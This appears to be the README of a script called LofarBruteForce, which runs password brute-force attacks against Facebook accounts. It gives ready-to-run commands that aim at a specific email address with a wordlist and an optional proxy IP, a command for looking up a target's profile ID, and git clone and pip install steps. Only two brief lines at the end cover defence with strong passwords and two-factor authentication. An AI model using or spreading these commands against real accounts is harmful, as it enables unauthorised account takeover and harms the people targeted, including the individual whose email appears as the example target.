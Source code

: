      SCRIPT: LofarBruteForce

     JOB: Brute Force Attack On Facebook Accounts

     SCRIPT ScreeenShot:
        Usage:
        Brute Force On Facebook Account Without proxy:
        Command: python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt
        
        Brute Force On Facebook Account With Proxy:
        python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt -p 144.217.101.245:3129
        
        
        Get Target Facebook Profile ID:
        python2 LofarBruteForce.YS -g https://www.facebook.com/zuck 
        
     
     # For Install
       git clone https://github.com/MuhammadYousuf813/LofarBruteForce

       cd LofarBruteForce/

       pip install requests

       pip install mechanize

       pip2 install requests

       pip2 install mechanize


     # Supported Platforms:
       1) Windows
       2) Linux
       3) Android~Termux
       4) MacOs
       5) any Os has python(2.x, 3.x) with required modules

     # Protect yourself from this attack:
        1) Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10            letters.
        2) Use 2F Authentication.








